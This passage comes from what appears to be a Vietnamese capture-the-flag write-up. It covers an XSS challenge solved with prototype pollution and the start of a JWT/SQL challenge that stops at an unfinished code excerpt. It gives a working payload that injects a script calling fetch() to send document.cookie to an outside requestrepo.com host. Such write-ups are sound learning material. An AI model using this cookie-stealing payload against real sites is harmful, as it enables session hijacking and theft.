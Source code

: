 Như vậy đã trigger thành công xss, bây giờ chỉ việc steal cookie và có flag.
- Nhưng đời không như là mơ, tới đây dù mình đã fetch các thứ nhưng đều không có cookie trả về. Xoay một hồi loay hoay thì đã phải đi hỏi tác giả của bài và nhận được hint.
    ![image](https://user-images.githubusercontent.com/54855855/146815141-bb4dc477-937e-4ecd-8341-e20e5d0cd0c5.png)

- Vậy là localhost chạy port 8000 => có thể tác giả setcookie cho localhost:8000 này.

### Payload

```
http://localhost:8000?test=<a>&__proto__[innerText]=<script>fetch("http://0qu8ci0g.requestrepo.com?".concat(document.cookie))</script>
```
Sau khi send payload này thì nhận được cookie trả về chứa `flag`

![image](https://user-images.githubusercontent.com/54855855/146815586-50cd9dce-c8fe-434e-b3a8-60e304024235.png)

## Challenge Super safe token
Bài này được cung cấp source nên mình biết được web được code bằng python có sử dụng sql. Mới access vô url thì mình chưa thể hình dung ra bài này là dạng gì. Nhưng được cung cấp source thì mình sẽ lao đầu vô đọc source trước.

Mình sẽ phân tích những đoạn code chính và những đoạn code dẫn đến lỗi để mình có thể exploit thôi nhé

Phân tích source:
- Route `/get_token`:

    ```py
    private_key = open('priv.pem').read()
    public_key = open('pub.pem').read()

    @app.route("/get_token")
    def get_token():
    return jwt.encode({'username': 'admin', 'now': time.time()}, private_key, algorithm='RS256')
    ```
    + Đoạn code này thì đọc file `priv.pem` và `pub.pem` rồi gán cho 2 biến `private_key` và `public_key`
    + Khi acces vô `/get_token` thì chúng ta sẽ đực trả về một `JSON Web Token` (JWT). token này có `username=admin` kí bằng `private_key` ở trên và sử dụng thuật toán `RS256`

- Route `/admin`:
    ```py
    @app.route("/admin", methods=['POST'])
    def get_flag():
    try:
        payload = jwt.decode(request.form['jwt'], public_key, algorithms='RS256')
        if 'admin' in payload['username']:
        return query.query(payload['username'])
        else: return "You're not admin !!!"
    except:
        return "0ops, it's wrong way"
    #except Exception as e: print(e)
  ```
  
  + Truy cập vô route này cần POST method và có một tham số có thể control là `jwt`.
  + Sau khi nhập `jwt` vào thì sẽ được decode đoạn input chúng ta nhập vào đó bằng `public_key` và thuật toán `RS256`.
  + Check trong token có `admin` nằm trong `username` không, chỉ cần có trong chứ không cần phải bằng.
  + Sau đó sẽ đưa giá trị của `username` vô hàm `query` được tạo ở file `query.py`.
  + Nếu decode token lỗi thì trả về `0ops, it's wrong way`.
- File `query.py` mình chỉ chú ý vô đoạn code này thôi

    ```py
    def query(payload):
  ```